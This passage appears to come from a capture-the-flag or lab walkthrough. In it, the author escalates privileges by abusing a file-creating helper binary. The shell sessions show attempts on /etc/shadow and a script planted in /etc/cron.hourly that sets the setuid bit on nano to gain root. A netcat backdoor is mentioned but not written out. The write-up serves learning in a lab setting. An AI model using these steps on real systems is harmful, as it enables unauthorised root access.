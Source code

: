 OK, interesting, no error and it has an interesting output about `MKNOD`. Ok lets try with a file I actually want to see: `/etc/shadow`.

{% highlight bash %}
eric@BM:~$ /usr/local/share/sgml/donpcgd /etc/shadow shadow
#### mknod(shadow,81ff,0)
eric@BM:~$ ls -al shadow
-rwxrwxrwx 1 root shadow 0 Sep 18 10:06 shadow
eric@BM:~$ -
{% endhighlight %}

Excellent! Same success output, however looking at the created file it has identical permissions to the original AND it is 0 bytes in size.

I then proceeded down another fun rabbit hole trying to figure out what the command was doing.  I did some research on `MKNOD` and in the end pretty much came up empty.  

After spending way too much time trying to figure out this one, I finally had an epiphany; what if I make a file in a directory I normally can not write to?  What then?  Seeing as I wanted to exploit this idea the best place I could think of to write was in `/etc/cron.hourly/` as any script placed in there would run once every hour.  Here's to wishing there was a `cron.5minutes`.

{% highlight bash %}
eric@BM:~$ ls /etc/cron.hourly/
eric@BM:~$ /usr/local/share/sgml/donpcgd rootme /etc/cron.hourly/
#### mknod(/etc/cron.hourly/,81b4,0)
/etc/cron.hourly/: File exists
eric@BM:~$ /usr/local/share/sgml/donpcgd rootme /etc/cron.hourly/rootme
#### mknod(/etc/cron.hourly/rootme,81b4,0)
eric@BM:~$ ls /etc/cron.hourly
rootme
eric@BM:~$ ls -al /etc/cron.hourly
total 12
drwxr-xr-x   2 root root 4096 Sep 18 10:08 .
drwxr-xr-x 105 root root 4096 Sep 18 09:53 ..
-rw-r--r--   1 root root  102 Apr  5 16:59 .placeholder
-rw-rw-r--   1 eric eric    0 Sep 18 10:08 rootme
eric@BM:~$ -
{% endhighlight %}

OK, successful execution, but can I write to the new file?

{% highlight bash %}
eric@BM:~$ nano /etc/cron.hourly/rootme
eric@BM:~$ cat /etc/cron.hourly/rootme
#!/bin/sh
chmod u+s /bin/nano
eric@BM:~$ -
{% endhighlight %}

Yes!  If the above script executes properly, I should be able to run nano as root and edit any file I want.  As a backup, I went ahead and created a second script in the same was as above and used these other commands.  I also wanted to setup a netcat backdoor, but the one available on the server did not have -e so no go there.
